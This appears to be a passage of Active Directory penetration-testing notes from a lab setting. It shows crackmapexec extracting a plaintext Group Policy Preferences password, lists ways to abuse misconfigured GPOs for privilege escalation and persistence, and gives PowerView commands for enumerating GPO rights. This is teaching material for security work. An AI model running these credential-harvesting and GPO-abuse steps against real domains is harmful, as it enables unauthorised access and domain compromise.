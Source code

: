 ```bash 
$ crackmapexec smb -L | grep gpp

[*] gpp_autologin
[*] gpp_password 

$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin

GPP_AUTO... 172.16.5.5 445 DC01  [*] Found domain.LOCAL/Policies/{CA...}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5 445 DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5 445 DC01  Domains: ['Domain.LOCAL']
GPP_AUTO... 172.16.5.5 445 DC01  Passwords: ['ILFreightguardadmin!']
```

> This was patched in 2014 [MS14-025 Vulnerability in GPP could allow elevation of privilege](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30), to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.

---
# Group Policy Object (GPO) Abuse

- Group Policy provides administrators with many advanced settings that can be applied to both user and computer objects in an AD environment.
- If we can gain rights over a Group Policy Object via an ACL misconfiguration, we could leverage this for lateral movement, privilege escalation, and even domain compromise and as a persistence mechanism within the domain.
- We can enumerate GPO information using `PowerView`, `BloodHound`, [group3r](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon), [PingCastle](https://www.pingcastle.com/).

GPO misconfigurations can be abused to perform:
- Adding additional rights to a user (such as `SeDebugPrivilege`, `SeTakeOwnershipPrivilege`, or `SeImpersonatePrivilege`)
- Adding a local admin user to one or more hosts
- Creating an immediate scheduled task to perform any number of actions
#### Enumerating GPO

```Powershell
# PowerView
PS C:\> Get-DomainGPO | select displayname
# Built-in cmdlet
PS C:\> Get-GPO -All | Select DisplayName

# PowerView
# Check if a user we can control has any rights over a GPO.
# A good first check is to see if the entire Domain Users group has any rights over one or more GPOs.
PS C:\> $sid=Convert-NameToSid "Domain Users"
PS C:\> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}

# Use the GPO GUID combined with Get-GPO to see the display name of the GPO.
PS C:\> Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532
```
